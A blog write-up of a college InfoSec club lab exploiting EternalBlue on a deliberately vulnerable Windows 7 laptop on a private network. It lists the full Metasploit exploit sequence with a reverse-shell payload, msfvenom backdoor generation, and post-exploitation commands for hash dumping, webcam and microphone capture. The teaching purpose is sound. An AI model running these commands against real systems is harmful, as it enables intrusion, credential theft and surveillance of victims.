 ```yaml
---
title: 🔐 BC InfoSec — Eternal Blue Demo
pubDate: "2025-06-08"
description: "Hands-on EternalBlue exploit demo on Windows 7."
category: general
image: "/images/eternalblue/cover.png"
alt: "Funky image of a cat"
tags: 
    - cve-2017-0144
    - eternalblue
    - windows-7
    - vulnerability-demo
---
```


### Preface

In April of 2025 I conducted a lab for members of the InfoSec Club at Bellevue College to attack a real laptop running an outdated and vulnerable version of Windows 7, specifically targeting the exploit EternalBlue.

Here are the behind the scenes details as to how I carried out the lab and the pitfalls I fell in along the way.

---

{{< Image src="/images/eternalblue/laptop.png" alt="The laptop that I eventually ended up using." width="600" height="400" >}}

The laptop that I eventually ended up using.

### Why Windows 7?

I chose Windows 7 because the EternalBlue exploit is easy to execute on real hardware and the vulnerable components are still accessible online. It’s also a memorable exploit from TryHackMe, and it's tied to the infamous WannaCry ransomware, making it perfect for showing students real-world implications.

{{< Image src="/images/eternalblue/iso.png" alt="One of the Windows 7 ISOs I found." width="600" height="400" >}}

One of the Windows 7 ISOs I found.

## USB 3.0 Installation Issues and Workarounds

My first attempt was on a Sony VAIO laptop with only USB 3.0 ports. Unfortunately, genuine Windows 7 SP1 ISOs don’t include USB 3.0 drivers, so installation couldn’t proceed. I could’ve burned the ISO to a CD-ROM, but instead I switched to a ThinkPad with USB 2.0 ports.

While digging around archive.org, I came across a Japanese ISO and a modified 32-bit version that supported USB 3.0, but EternalBlue is more stable on 64-bit versions, so I avoided those.

## Finding Safe Installation Media

I sourced my ISOs from [massgrave.dev](https://massgrave.dev/), which appeared to provide clean Windows 7 images. While I didn’t rigorously verify them, the lack of bundled activation scripts or extra drivers lent legitimacy. These weren't used for sensitive data, so the risk was acceptable for a contained lab setup.

{{< Image src="/images/eternalblue/motd.png" alt="MOTD of the Kali VM" width="600" height="400" >}}

MOTD of the Kali VM

## Kali Linux Setup for Students

I spun up one Kali VM on my Proxmox node with a limited "student" account. I restricted `sudo` access to just `nmap` and `metasploit` commands and added a custom ASCII art login banner by editing `/etc/motd`. I relied on students following the rules of engagement, trusting they wouldn't attack the Proxmox node or each other.

{{< Image src="/images/eternalblue/desktop.png" alt="Desktop of the vulnerable Windows 7 SP1 laptop." width="600" height="400" >}}

Desktop of the vulnerable Windows 7 SP1 laptop.

## Making Windows 7 Vulnerable

To ensure the exploit worked, I:

- Disabled Windows Firewall, Updates, and Defender.
- Created a persona named "Bobby Tables" with files, themes, and desktop widgets to make the machine look lived-in.

<!-- ![Image taken using meterpreter from the vulnerable laptop.](image%204.png) -->

{{< Image src="/images/eternalblue/meterpreterpic.png" alt="Image taken using meterpreter from the vulnerable laptop." width="600" height="400" >}}

Image taken using meterpreter from the vulnerable laptop.

## Exploiting with Metasploit and Meterpreter

The demo sequence:

```bash
nmap --top-ports 50 10.10.10.50
nmap -p 445 --open --script=smb-os-discovery 10.10.10.50
msfconsole
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS 10.10.10.50
run
use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.10.50
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.75
exploit
```

Once inside Meterpreter:

```bash
sysinfo
ipconfig
hashdump
ps
migrate [PID]
```

Fun commands:

- `webcam_stream`, `screenshare`, `record_mic`
- TTS: `execute -f powershell.exe -a "Add-Type...Speak('You have been hacked')"`
- Fake alerts: `execute -f mshta.exe -a "vbscript:msgbox(...)"`
- Open websites: `execute -f cmd.exe -a "/c start https://google.com"`

### Notes I prepared for the meeting:

[Notes for EternalBlue Demo](https://www.notion.so/Notes-for-EternalBlue-Demo-2071a2360ee380d3b52dcffbc877d5f3?pvs=21)

## Reverse Shell Access for Students

I used `msfvenom` to generate payloads with unique ports:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.75 LPORT=XXXX -f exe -o studentXXXX.exe
```

Students opened listeners using:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT XXXX
exploit -j
```

On the host, I executed the EXE manually. Once in students had to use `migrate PID` into the `explorer.exe` process to interact with the desktop environment.

## Travel Router Networking

I wired the Kali box and Windows 7 laptop to a travel router, which repeated school Wi-Fi and provided a private LAN. I used DHCP reservations to assign fixed IPs for the Kali VM and Windows machine, keeping command prep simple and avoiding IP conflicts.

## Teaching Aids

I created a slide deck that explained EternalBlue, the history of WannaCry, and basic steps for identifying and exploiting the vulnerability. I emphasized the dangers of RCE bugs and kept demo commands prepped for copy-pasting.

## What I’d Improve Next Time

- **Prep payloads**: Pre-generate `.exe` backdoors to save time.
- **Tighter environment control**: A student got RDP access and bypassed the setup.
- **More coverage**: I wanted to demo hash stealing and password cracking but ran into issues with `migrate` and process permissions.
- **EternalBlue quirk**: It works once per boot — if you mess up the first attempt, you'll need a reboot.

---

### Slides:

[EternalBlue Demo InfoSecClub.pdf](/public/files/EternalBlue_Demo_InfoSecClub.pdf)

### Recording:

[https://www.youtube.com/watch?v=9wS6HYpg0S0](https://www.youtube.com/watch?v=9wS6HYpg0S0)